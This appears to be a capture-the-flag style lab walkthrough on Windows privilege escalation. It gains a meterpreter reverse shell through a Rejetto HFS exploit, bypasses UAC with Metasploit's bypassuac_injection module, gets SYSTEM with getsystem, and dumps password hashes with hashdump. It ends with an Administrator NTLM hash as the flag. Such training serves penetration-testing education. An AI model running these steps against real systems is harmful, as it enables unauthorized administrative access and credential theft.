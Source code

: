 # Windows Privilege Escalation: Bypassing UAC

+ User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.

+ UAC is used to ensure that changes to the operating system require approval from the administrator.

+ We can utilize the “Windows Escalate UAC Protection Bypass (In Memory Injection)” module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.

## Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it UACBypass for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- We can start by using db_nmap to start scanning the target machine. Or you can import them from an external xls nmap result file.

**Note**: The meterpreter session should be established previous to the use of UAC bypass (memory injection) and it should be an x64 meterpreter session.

- Service: Rejetto2.3. Exploit found: `exploit/windows/http/rejetto_hfs_exec`. Get access to the target machine with a meterpreter session. Set the meterpreter, reverse_tcp payload, to the x64 version for windows.

- Let's try local enumeration: `sysinfo`, `getuid`, `getprivs`. Consider the user you are currently logged in at.

- Let's try automatic privilege escalation: `getsystem`. It should fail in this case as it seems the user `admin` is not the Administrator. But it could still be part of the local administrators group.

- Pop a cmd prompt shell and run `net users` to see all local users. And `net localgroup administrators` to see if you are part of the local administrators group.

**Note**: UAC bypass is a reliable technique for privilege escalation as it exists from windows vista to the most recent versions of windows at the moment.

- Now we are going to use the `exploit/windows/local/bypassuac_injection` module on the meterpreter session we have running. Remember to set the correct options for the payload, and remember to set a x64 meterpreter payload and the TARGET to `Windows x64`.

- Now from the newly established meterpreter session, as UAC is now disabled thanks to the module, run `getsystem` and you should get NT AUTHORITY\SYSTEM privileges.

- To test your privileges, run `hashdump`.

Flag: Administrator NTLM hash: f168d9f8e6c5b893b8c4dfa202228235.
